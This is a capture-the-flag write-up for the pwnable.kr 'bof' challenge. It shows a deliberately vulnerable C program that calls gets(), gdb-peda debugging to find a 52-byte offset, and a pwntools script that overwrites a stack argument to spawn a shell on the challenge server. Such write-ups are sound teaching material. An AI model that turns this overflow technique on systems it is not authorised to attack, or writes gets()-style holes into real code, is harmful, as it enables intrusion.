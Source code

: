 # [pwnable.kr](http://pwnable.kr/play.php) - bof Challenge
![](pwnable.kr-website.png)
## 1.1 Getting resource
```sh
$ wget http://pwnable.kr/bin/bof && wget http://pwnable.kr/bin/bof.c
```
```bash
th3knight$wget http://pwnable.kr/bin/bof && wget http://pwnable.kr/bin/bof.c
--2022-01-09 17:45:49--  http://pwnable.kr/bin/bof
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7348 (7,2K)
Saving to: ‘bof.2’

bof.2                         100%[=================================================>]   7,18K  --.-KB/s    in 0s

2022-01-09 17:45:50 (526 MB/s) - ‘bof.2’ saved [7348/7348]

--2022-01-09 17:45:50--  http://pwnable.kr/bin/bof.c
Resolving pwnable.kr (pwnable.kr)... 128.61.240.205
Connecting to pwnable.kr (pwnable.kr)|128.61.240.205|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 308 [text/x-csrc]
Saving to: ‘bof.c.2’

bof.c.2                       100%[=================================================>]     308  --.-KB/s    in 0s

2022-01-09 17:45:50 (18,1 MB/s) - ‘bof.c.2’ saved [308/308]
```

## 1.2 Overflowing the program
### 1.2.1 Reading and analysis the source code
First up, we need to see what is in the code
```bash
$ cat bof.c
```
```c
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
We see that, in the main function inputted is `0xdeadbeef`
```c
int main(int argc, char* argv[]){
        func(0xdeadbeef); // <=== Here
        return 0;
}
```

and in `func()`, there is an array with `char overflowme[32]` and have a risk function called from lib is `gets()` with the note: smash me!
```c
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
```
and if the key (which is `0xdeadbeef`) is `0xcafebabe`, there would be system call the `sh` binary
```c
if(key == 0xcafebabe){
	system("/bin/sh");
}
```
### 1.2.2 Debugging program and find the offset to overflow & override the key.
In here i will use the gdb debugger to the bug the program
```bash
th3knight$gdb -q bof
Reading symbols from bof...
(No debugging symbols found in bof)
gdb-peda$
```
In here, the output of mine might different than yours because i've already installed the [Peda](https://github.com/longld/peda)
Let's disassembly the main
```powershell
gdb-peda$ disas main

Dump of assembler code for function main:
   0x5655568a <+0>:     push   ebp
   0x5655568b <+1>:     mov    ebp,esp
   0x5655568d <+3>:     and    esp,0xfffffff0
   0x56555690 <+6>:     sub    esp,0x10
   0x56555693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x5655569a <+16>:    call   0x5655562c <func>
   0x5655569f <+21>:    mov    eax,0x0
   0x565556a4 <+26>:    leave
   0x565556a5 <+27>:    ret
End of assembler dump.
```
In here, we could see in the address `0x56555693` : `0xdeadbeef` moved into pointer of ESP and then `call <func>`, let's disassembly the function `func` to see other intructions.
```powershell
gdb-peda$ disas func

Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:    call   0x56555645 <func+25>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0x56555650 <func+36>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:    call   0x56555665 <func+57>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:    call   0x56555673 <func+71>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0x56555684 <func+88>
   0x56555688 <+92>:    leave
   0x56555689 <+93>:    ret
End of assembler dump.
```
In thí function, I see the compare intruction `cmp  DWORD PTR [ebp+0x8],0xcafebabe` so i know this is `if(key == 0xcafebabe)` operation. Let's make a break point on it and create a pattern to overflow and get the offset.

Folowing to the workflow of the code, I know that `0x5655564f <+35>:  call   0x56555650 <func+36>` will be the `gets()`,  so I just make a breakpoint before and after calling it to see what happend.
```powershell
gdb-peda$ br *0x5655564c
Breakpoint 1 at 0x5655564c
gdb-peda$ br *0x56555654
Breakpoint 2 at 0x56555654
```
Creating the offset
```powershell
gdb-peda$ pattern create 100 1.txt
Writing pattern of 100 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```
On the stop of break point 1, we use `x/100wx $esp` to show the esp, I got lots of result but can see that there is 0xdeadbeef overthere
```powershell
0xffffd210:     0xffffd22c      0x00000000      0xf7ffd000      0x00000000
0xffffd220:     0x00000000      0x00000000      0x56555034      0x5655573a
0xffffd230:     0x56556ff4      0xf7fa6000      0x00000001      0x5655549d
0xffffd240:     0xf7fa63fc      0xffffffff      0x56556ff4      0xbb15de00
0xffffd250:     0x56556ff4      0xf7fa6000      0xffffd278      0x5655569f
0xffffd260:     0xdeadbeef      0x00000000      0x565556b9      0x00000000 ; <===
```
Now we know the address `0xffffd260` has`0xdeadbeef`. Enter `c` or `continue` to continue and stop at the next breakpoint, let's show it's stack to get the offset and using the pattern offset of peda to find the exact length
```powershell
gdb-peda$ x/x 0xffffd260
0xffffd260:     0x41474141
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

### 1.3 POC and getting the flag
We already know position of `0xdeadbeef`, it's beginning from word 52. I wrote a python script `poc.py` to make a buffer and send to the server following the instruction of the game `nc pwnable.kr 9000`. 
```python
#!/usr/bin/python3
import struct  
import pwn  
  
junk = b'A'*52  
key = struct.pack('<L', 0xcafebabe)  
overriden_key_buffer = junk + key  
connection = pwn.remote('pwnable.kr', 9000)  
connection.sendline(overriden_key_buffer)  
connection.interactive()
```
```bash
th3knight$./poc.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag    <=== This is what we need
log
log2
super.pl
```
Thanks for reading
